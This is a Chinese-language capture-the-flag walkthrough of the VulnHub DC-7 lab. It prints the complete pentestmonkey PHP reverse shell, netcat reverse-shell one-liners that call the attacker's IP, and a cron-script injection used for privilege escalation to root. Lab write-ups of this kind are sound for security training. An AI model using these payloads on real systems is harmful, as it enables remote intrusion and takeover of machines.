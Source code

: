 # DC 7

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-7,356/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.162
```

![image](./img/vulnhub-dc7-1.png)
## 漏洞利用

![image](./img/vulnhub-dc7-2.png)

下面提示@DC7USER，谷歌搜索发现Github

- https://github.com/Dc7User/staffdb

![image](./img/vulnhub-dc7-3.png)

在config.php文件发现数据库mysql账号密码

![image](./img/vulnhub-dc7-4.png)

但目标网站没有开放mysql端口，尝试用来SSH登录
`dc7user MdR3xOgB7#dW`
```bash
ssh dc7user@10.30.0.162
ls # 收到邮件提示查看
cat /var/mail/dc7user
```

是一个定时备份脚本，得到备份目录,进行查看

![image](./img/vulnhub-dc7-5.png)

```bash
cat /opt/scripts/backups.sh
```

![image](./img/vulnhub-dc7-6.png)

可以看到drush命令，可以用它来修改密码，drush为该网站的网站管理指令，可以通过该命令给网站后台添加一个用户名和密码
该命令必须在指定网站目录下使用，kali不具备该命令

```bash
cd /var/www/html
drush user-password admin --password="admin" # 成功修改，去登录
```

![image](./img/vulnhub-dc7-7.png)


打开页面去安装一个PHP扩展方便写入木马
Manage-->Extend-->List-->Install new module

扩展: https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz


![image](./img/vulnhub-dc7-8.png)

![image](./img/vulnhub-dc7-9.png)

回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

写入一个php反向shell
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.30.0.81';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![image](./img/vulnhub-dc7-10.png)

```bash
nc -lvnp 4444
```

点击preview 成功反弹

![image](./img/vulnhub-dc7-11.png)

看到另外一种方法
```
当在主页面的文档中写入
<?php phpinfo();?>
php语句被执行，写入我们要执行的命令

<?php system('nc -e /bin/bash 192.168.211.128 5555')?>
kali 监听端口打开页面即可返回shell

交互Shell
python -c "import pty;pty.spawn('/bin/bash')"
```


**提权**

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```bash
cd /opt/scripts/
ls -all
```

![image](./img/vulnhub-dc7-12.png)

可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

```bash
nc -lvnp 5555 # kali

# 写入payload
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 10.30.0.81 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

入之后要等一下备份程序的运行（15分钟一次），会反弹一个root权限回来

![image](./img/vulnhub-dc7-13.png)

## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC7-WalkThrough.md
- http://www.kxsy.work/2021/08/06/shen-tou-dc-7/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/yrk4mg